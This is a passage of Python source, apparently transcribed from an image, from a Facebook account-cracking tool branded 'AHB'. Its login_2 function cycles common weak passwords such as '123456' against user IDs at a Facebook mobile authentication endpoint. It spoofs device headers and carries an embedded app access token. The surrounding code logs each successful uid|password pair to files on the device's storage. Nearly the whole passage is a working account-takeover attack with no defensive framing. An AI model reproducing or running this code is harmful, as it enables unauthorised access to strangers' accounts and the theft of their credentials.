 ‎                print(f"\r\r\x1b[1;37m>\x1b[38;5;196m├Ч\x1b[1;37m<\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
‎                open('/sdcard/AHB-OLD-M1-OK.txt', 'a').write(f"{uid}|{pw}\n")
‎                oks.append(uid)
‎                break
‎            elif 'www.facebook.com' in res.get('error', {}).get('message', ''):
‎                print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
‎                open('/sdcard/AHB-OLD-M1-OK.txt', 'a').write(f"{uid}|{pw}\n")
‎                oks.append(uid)
‎                break
‎        loop += 1
‎    except Exception:
‎        time.sleep(5)
‎
‎
‎def login_2(uid):
‎    """
‎    Login attempt method 2.
‎    """
‎    sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB-M2\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
‎    
‎    for pw in ('123456', '123123', '1234567', '12345678', '123456789'):
‎        try:
‎            with requests.Session() as session:
‎                headers = {
‎                    'x-fb-connection-bandwidth': str(rr(20000000, 29999999)),
‎                    'x-fb-sim-hni': str(rr(20000, 40000)),
‎                    'x-fb-net-hni': str(rr(20000, 40000)),
‎                    'x-fb-connection-quality': 'EXCELLENT',
‎                    'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA',
‎                    'user-agent': window1(),
‎                    'content-type': 'application/x-www-form-urlencoded',
‎                    'x-fb-http-engine': 'Liger'
‎                }
‎                url = f"https://b-api.facebook.com/method/auth.login?format=json&email={str(uid)}&password={str(pw)}&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true"
‎                po = session.get(url, headers=headers).json()
‎                if 'session_key' in str(po):
‎                    print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m<\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
‎                    open('/sdcard/AHB-OLD-M2-OK.txt', 'a').write(f"{uid}|{pw}\n")
‎                    oks.append(uid)
‎                    break
‎                elif 'session_key' in po:
‎                    print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
‎                    open('/sdcard/AHB-OLD-M2-OK.txt', 'a').write(f"{uid}|{pw}\n")
‎                    oks.append(uid)
‎                    break
‎        except Exception as e:
‎            pass
‎    loop += 1